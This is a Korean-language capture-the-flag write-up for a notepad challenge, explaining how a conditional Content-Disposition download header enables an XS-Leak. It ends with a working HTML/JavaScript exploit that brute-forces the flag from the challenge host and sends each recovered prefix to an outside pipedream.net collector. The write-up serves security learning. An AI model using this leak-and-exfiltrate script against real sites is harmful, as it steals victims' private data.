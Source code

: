여기서 중요한 부분은 우리가 입력한 값과 노트의 값이 일치 하지 않으면 else 문 내부에 들어가는데, 여기서 응답 헤더 하나를 우리가 설정할 수 있다는 것 입니다. 우린 아까 위에서 `Download Trigger`에 대해서 배웠는데, 엔드포인트에서 `Content-Disposition: attachment` 헤더를 설정해서 반환하면 브라우저는 첨부 파일을 탐색하고 파일을 설치 한다는 것을 배웠습니다.

그럼 우리가 입력한 값과 노트의 값이 일치 하지 않을 때는 `Content-Disposition: attachment` 헤더를 설정해 파일이 다운로드 되게 하고, 우리가 입력한 값과 노트의 값이 일치하면 파일은 다운로드 하지 않게 만들 수 있고, 이를 이용하면 XS-Leak 공격을 이용해 노트 값을 파악할 수 있습니다.

그러므로 봇을 이용해 `/find`로 요청을 보내면 `id` 값은 관리자의 `id` 이므로 노트의 값으로 플래그가 들어올 것 이고, 이를 XS-Leak 공격을 이용해서 플래그를 획득할 수 있습니다.

![image](https://user-images.githubusercontent.com/49112423/129488305-9cb0ce17-2495-4db8-8b46-bd82eb8ba3c3.png)

분석한 `/find` 로직을 확인하기 위해 위와 같이 메모를 작성했습니다. 

![image](https://user-images.githubusercontent.com/49112423/129488320-fbd08b0b-ff14-4b85-ae4c-007499638885.png)
![image](https://user-images.githubusercontent.com/49112423/129488348-72e7814b-8385-40fa-b007-56cf503173c3.png)

확인을 해보니 입력값과 노트 값이 일치하면 노트 값이 출력이 되고, 일치 하지 않으면 파일이 다운로드 되는 것을 확인할 수 있었습니다. 이제 이를 이용해 플래그를 획득하면 될 거 같습니다.

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Notepad 1.5 - Arthur's Article Poc</title>
    </head>
    <body>
        <script>
            const string = "abcdefghijklmnopqrstuvwxyz1234567890~}{!@$%^*)(_+";

            let flag = 'inctf{';

            function xs(flag, str) {
                let url = `http://chall.notepad15.gq:1515/find?condition=starts&debug&Content-Disposition=attachment&startsWith=${flag + str}`;
                const MyWindow = window.open(url);
                setTimeout(() => {
                    try{
                        MyWindow.origin;
                    } catch (err) {
                        flag += str;
                        fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/" + flag)
                        broute_force(flag);
                    }
                }, 1000);
            }
            function broute_force(flag) {
                for ( let i = 0; i < string.length; i ++) {
                    xs(flag, string[i])
                }
            }

            broute_force(flag);
        </script>
    </body>
</html>
```
